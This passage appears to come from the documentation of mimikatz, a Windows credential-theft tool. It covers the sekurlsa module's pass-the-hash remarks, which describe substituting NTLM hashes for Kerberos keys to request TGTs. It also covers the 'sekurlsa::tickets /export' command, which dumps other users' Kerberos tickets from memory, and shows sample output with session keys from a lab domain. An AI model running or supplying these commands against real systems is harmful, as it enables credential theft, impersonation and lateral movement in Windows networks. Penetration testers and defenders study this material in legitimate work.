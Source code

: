 **Remarks:**
* this command does not work with minidumps (nonsense);
* it requires elevated privileges (`privilege::debug` or `SYSTEM` account), unlike 'Pass-The-Ticket' which uses one official API ;
* this new version of 'Pass-The-Hash' replaces `RC4 keys` of Kerberos by the `ntlm` hash (and/or replaces `AES` keys) - it permits to the Kerberos provider to ask `TGT` tickets! ;
* `ntlm` hash is **mandatory** on XP/2003/Vista/2008 and before 7/2008r2/8/2012 `kb2871997` (`AES` not available or replaceable) ;
* `AES` keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with `kb2871997`, in this case you can avoid `ntlm` hash.

**See also:**
* Pass-The-Ticket: [kerberos::ptt](module-~-kerberos#ptt)
* Golden Ticket: [kerberos::golden](module-~-kerberos#golden)

## tickets
List and export Kerberos tickets of all sessions.  
Unlike [kerberos::list](module-~-kerberos#list), `sekurlsa` uses memory reading and is not subject to key export restrictions. `sekurlsa` can access tickets of others sessions (users).

**Argument:**
* `/export` - _optional_ - tickets are exported in `.kirbi` files. They start with user's `LUID` and group number (`0` = `TGS`, `1` = `client ticket`(?) and `2` = `TGT`)

```
mimikatz # sekurlsa::tickets /export

Authentication Id : 0 ; 541043 (00000000:00084173)
Session           : Interactive from 2
User Name         : Administrateur
Domain            : CHOCOLATE
SID               : S-1-5-21-130452501-2365100805-3685010670-500

	 * Username : Administrateur
	 * Domain   : CHOCOLATE.LOCAL
	 * Password : (null)

	Group 0 - Ticket Granting Service
	 [00000000]
	   Start/End/MaxRenew: 11/05/2014 16:47:59 ; 12/05/2014 02:47:58 ; 18/05/2014 16:47:58
	   Service Name (02) : ldap ; srvcharly.chocolate.local ; @ CHOCOLATE.LOCAL
	   Target Name  (02) : ldap ; srvcharly.chocolate.local ; @ CHOCOLATE.LOCAL
	   Client Name  (01) : Administrateur ; @ CHOCOLATE.LOCAL
	   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ; 
	   Session Key       : 0x00000012 - aes256_hmac      
	     d0195b657e63cdec73f32bf44d36bb12a62c928de6db9964b5a87c55721f8d04
	   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5	[...]
	   * Saved to file [0;84173]-0-0-40a50000-Administrateur@ldap-srvcharly.chocolate.local.kirbi !
	 [00000001]
	   Start/End/MaxRenew: 11/05/2014 16:47:59 ; 12/05/2014 02:47:58 ; 18/05/2014 16:47:58
	   Service Name (02) : LDAP ; srvcharly.chocolate.local ; chocolate.local ; @ CHOCOLATE.LOCAL
	   Target Name  (02) : LDAP ; srvcharly.chocolate.local ; chocolate.local ; @ CHOCOLATE.LOCAL
	   Client Name  (01) : Administrateur ; @ CHOCOLATE.LOCAL ( CHOCOLATE.LOCAL )
	   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ; 
	   Session Key       : 0x00000012 - aes256_hmac      
	     60cedabb5c3e2874131e9770c2d858fdec0342acf8c8787771d7c4475ace0392
	   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5	[...]
	   * Saved to file [0;84173]-0-1-40a50000-Administrateur@LDAP-srvcharly.chocolate.local.kirbi !

	Group 1 - Client Ticket ?

	Group 2 - Ticket Granting Ticket
```